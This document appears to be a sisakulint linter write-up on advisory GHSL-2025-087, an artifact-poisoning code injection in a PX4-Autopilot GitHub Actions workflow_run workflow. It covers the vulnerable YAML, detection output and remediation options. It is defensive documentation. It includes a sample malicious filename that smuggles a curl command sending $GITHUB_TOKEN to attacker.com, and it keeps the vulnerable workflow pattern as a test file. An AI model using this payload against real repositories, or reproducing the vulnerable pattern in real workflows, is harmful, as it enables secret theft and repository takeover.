

# GHSL-2025-087: Code Injection via Artifact Content in workflow_run

## Summary

| Item | Value |
|------|-------|
| Advisory ID | GHSL-2025-087 |
| Severity | Critical |
| Affected Component | PX4/PX4-Autopilot |
| CVE | N/A |
| CWE | CWE-94 (Improper Control of Generation of Code) |
| Reference | https://securitylab.github.com/advisories/GHSL-2025-087_PX4_PX4-Autopilot/ |

## Vulnerability Description

GHSL-2025-087 is a code injection vulnerability that exploits a multi-stage attack through artifact poisoning. The vulnerability occurs when:

1. A `pull_request_target` workflow writes attacker-controlled data (e.g., filenames) to an artifact
2. A `workflow_run` workflow downloads that artifact and reads its content
3. The content is used directly in a shell script via `${{ }}` expression interpolation

This is a sophisticated attack that chains artifact poisoning with code injection in a privileged workflow context.

## Attack Vector



## Vulnerable Code Pattern

```yaml
name: Docs PR Comment

on:
  workflow_run:
    workflows: ["Docs Flaw Checker"]
    types:
      - completed

jobs:
  comment-pr:
    runs-on: ubuntu-latest
    if: ${{ github.event.workflow_run.conclusion == 'failure' }}
    steps:
      # Step 1: Download artifact from triggering workflow
      - name: Download artifact
        uses: dawidd6/action-download-artifact@v2
        with:
          workflow: docs_flaw_checker.yml
          run_id: ${{ github.event.workflow_run.id }}
          name: error-reports
          path: ./reports

      # Step 2: Read file content into step output
      - name: Read Error By Page
        id: read-error-by-page
        uses: juliangruber/read-file-action@v1
        with:
          path: ./reports/errorsFilteredByPrPages.md

      # VULNERABLE: Content from artifact used directly in shell
      - name: Echo content
        run: |
          echo "${{ steps.read-error-by-page.outputs.content }}"
```

### Exploitation Example

An attacker creates a PR with a file named:

```
" && curl -d "$GITHUB_TOKEN" https://attacker.com && echo "
```

When the markdown link checker fails on this file, the filename is written to the error report artifact. The `workflow_run` workflow then:

1. Downloads the artifact
2. Reads the file content (including the malicious filename)
3. Executes: `echo "..." && curl -d "$GITHUB_TOKEN" https://attacker.com && echo "..."`

This allows the attacker to:
- Exfiltrate repository secrets
- Modify repository contents
- Execute arbitrary commands with workflow permissions

## sisakulint Detection

sisakulint can detect this vulnerability through multiple rules:

### 1. artifact-poisoning-medium Rule

Detects the use of third-party artifact download actions in privileged contexts:

```
script/actions/ghsl/ghsl-2025-087.yaml:14:9: third-party artifact download action
"dawidd6/action-download-artifact" used in workflow with untrusted triggers
(workflow_run). Consider extracting to '${{ runner.temp }}/artifacts'.
[artifact-poisoning-medium]
```

### 2. code-injection-critical Rule (with TaintTracker)

When `juliangruber/read-file-action` is added to known tainted actions, sisakulint detects the code injection:

```
script/actions/ghsl/ghsl-2025-087.yaml:31:18: code injection (critical):
"steps.read-error-by-page.outputs.content (tainted via artifact file content)"
is potentially untrusted and used in a workflow with privileged triggers.
Avoid using it directly in inline scripts. Instead, pass it through an
environment variable. [code-injection-critical]
```

### Key Insight: Taint Propagation

The vulnerability requires tracking taint through:
1. Artifact download (source of untrusted data)
2. File read action (propagates taint to output)
3. Expression interpolation (sink for code injection)

sisakulint's TaintTracker handles this by marking outputs from known file-reading actions as tainted.

## Why This Attack is Dangerous

### Privileged Context

`workflow_run` workflows:
- Run with the base repository's permissions
- Have access to repository secrets
- Execute with write access to the repository

### Indirect Attack Path

The attack bypasses direct input validation by:
1. Encoding payload in a filename (not obvious malicious content)
2. Using artifact as an intermediate storage
3. Exploiting legitimate file-reading actions

### Difficult to Detect Manually

The vulnerability spans multiple workflows and requires understanding:
- How artifacts flow between workflows
- What data is stored in artifacts
- How that data is used downstream

## Remediation

### Option 1: Use Environment Variables (Recommended)

```yaml
- name: Read Error By Page
  id: read-error-by-page
  uses: juliangruber/read-file-action@v1
  with:
    path: ./reports/errorsFilteredByPrPages.md

- name: Echo content
  env:
    CONTENT: ${{ steps.read-error-by-page.outputs.content }}
  run: |
    echo "$CONTENT"
```

### Option 2: Sanitize Artifact Content

Validate and sanitize artifact content before use:

```yaml
- name: Sanitize content
  run: |
    # Remove potentially dangerous characters
    SAFE_CONTENT=$(cat ./reports/errorsFilteredByPrPages.md | tr -d '`$"' | head -c 10000)
    echo "content<<EOF" >> $GITHUB_OUTPUT
    echo "$SAFE_CONTENT" >> $GITHUB_OUTPUT
    echo "EOF" >> $GITHUB_OUTPUT
```

### Option 3: Use Structured Data

Store data in JSON format and parse safely:

```yaml
- name: Parse artifact
  uses: actions/github-script@v6
  with:
    script: |
      const fs = require('fs');
      const data = JSON.parse(fs.readFileSync('./reports/errors.json', 'utf8'));
      // Process structured data safely
      console.log(data.errorCount);
```

### Option 4: Validate Artifact Source

Verify the artifact comes from a trusted workflow run:

```yaml
- name: Verify artifact source
  run: |
    # Check workflow run was from a trusted source
    if [[ "${{ github.event.workflow_run.head_repository.full_name }}" != "${{ github.repository }}" ]]; then
      echo "Artifact from fork, skipping"
      exit 0
    fi
```

## Additional Security Considerations

### Artifact Poisoning is a Supply Chain Risk

Artifacts can be poisoned by:
- Malicious PRs (via pull_request_target)
- Compromised dependencies
- Malicious filenames/paths

### Defense in Depth

1. **Isolate artifact extraction**: Use `${{ runner.temp }}/artifacts`
2. **Validate content**: Check for unexpected characters
3. **Minimize permissions**: Use least-privilege permissions
4. **Audit artifact sources**: Verify workflow run origin

### Known File-Reading Actions

These actions read file content and may propagate tainted data:

| Action | Tainted Output |
|--------|---------------|
| `juliangruber/read-file-action` | `outputs.content` |
| `andstor/file-reader-action` | `outputs.contents` |
| `chuhlomin/render-template` | Template variables |

## Auto-Fix Support

sisakulint provides auto-fix for the code injection pattern:

```bash
# Preview the fix
sisakulint -fix dry-run script/actions/ghsl/ghsl-2025-087.yaml

# Apply the fix
sisakulint -fix on script/actions/ghsl/ghsl-2025-087.yaml
```

The auto-fix will:
1. Move `steps.*.outputs.content` to an environment variable
2. Replace `${{ steps.*.outputs.content }}` with `$CONTENT`

## Test Files

- Vulnerable pattern: `script/actions/ghsl/ghsl-2025-087.yaml`

## References

- [GitHub Security Lab Advisory](https://securitylab.github.com/advisories/GHSL-2025-087_PX4_PX4-Autopilot/)
- [Keeping your GitHub Actions and workflows secure](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
- [Artifact Poisoning Attacks](https://www.legitsecurity.com/blog/artifact-poisoning-vulnerability-discovered-in-rust)
- [workflow_run Event](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflow_run)
